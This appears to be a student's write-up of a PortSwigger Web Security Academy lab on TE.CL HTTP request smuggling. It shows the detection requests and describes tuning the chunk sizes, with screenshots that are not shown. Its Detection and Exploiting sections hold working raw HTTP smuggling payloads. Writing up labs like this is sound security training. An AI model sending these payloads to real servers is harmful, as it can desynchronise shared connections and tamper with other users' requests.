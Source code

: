 [LAB](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)

[Explained](https://www.youtube.com/watch?v=QaouEvhHefk&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=5&ab_channel=JarnoTimmermans)

# Detection

```HTTP
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 11
Transfer-Encoding: chunked

3
abc
X

```

![](../../../Attachments/Pasted%20image%2020250818175935.png)
Got Invalid Request, which indicates that frontend doesn't use Content-Length header, and "X" is an invalid chunk size:

![](../../../Attachments/Req%20Smug/Invalid%20Chunk%20SIze.png)

Checking for TE.CL with the second request from methodology
```
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
Got **Backend Timeout with 500 Internal Server Error**

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818180347.png)


# Usage of Differential Responses:

Explained:

![](../../../Attachments/Req%20Smug/Confirmation%20Diffential%20Responses%20TE%20CL.png)

# Crafting the request
Adjusting the Content-Length of the smuggles request, to the minimum to append to the next request:
![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818183436.png)


Adjusting the chunk size to correspond to the 404 request until its body (excluding last non-printable):

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818184053.png)

Adjusting first Content-Length to include only chunked size and following non-printable chars:

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818184628.png)


# Exploiting

```HTTP
POST / HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```
Got the **200 OK** and immediately send the normal request which responded with a **404 Not Found**
